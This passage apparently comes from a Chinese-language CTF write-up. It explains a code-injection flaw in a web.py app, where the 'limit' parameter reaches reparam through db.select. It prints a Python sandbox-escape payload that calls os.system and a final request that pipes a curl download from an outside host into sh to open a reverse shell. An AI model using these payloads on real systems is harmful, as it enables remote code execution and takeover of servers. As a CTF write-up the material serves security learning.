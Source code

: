 ```python
print(reparam("a=${[item for item in [].__class__.__bases__[0].__subclasses__() if item.__name__=='catch_warnings' ][0]()._module.__builtins__['__import__']('os').system('pwd')}",dict(s='test')))
```

看一下app.py的代码`method="p"`的时候：

```python
elif method == 'p':
    limit = s.get('l')
    return web.template.frender('templates/index.html')(get_posts(limit), get_urls())
```

```python
def get_posts(limit=None):
    records = []
    for i in db.select('posts', limit=limit, order='ups desc'):
        tmp = {
            'm': 'r', 
            't': i.title.encode('utf-8', 'ignore'), 
            'u': i.id, 
        } 
        tmp['param'] = encrypt(urllib.urlencode(tmp))
        tmp['ups'] = i.ups
        if i.file:
            tmp['file'] = encrypt(urllib.urlencode({'m': 'd', 'f': i.file}))
        else:
            tmp['file'] = ''
        
        records.append( tmp )
    return records
```

看到get_posts函数执行了db.select操作，把用户的limit参数带入了`reparam`函数，造成任意代码执行。

所以构造数据,就可以任意代码执行了,反弹shell，拿到flag:

```
"m=p&l=${[item for item in [].__class__.__bases__[0].__subclasses__() if item.__name__=='catch_warnings' ][0]()._module.__builtins__['__import__']('os').system('curl http://wonderkun.cc:3000/wonderkun.cc:8888|sh')}'}"
```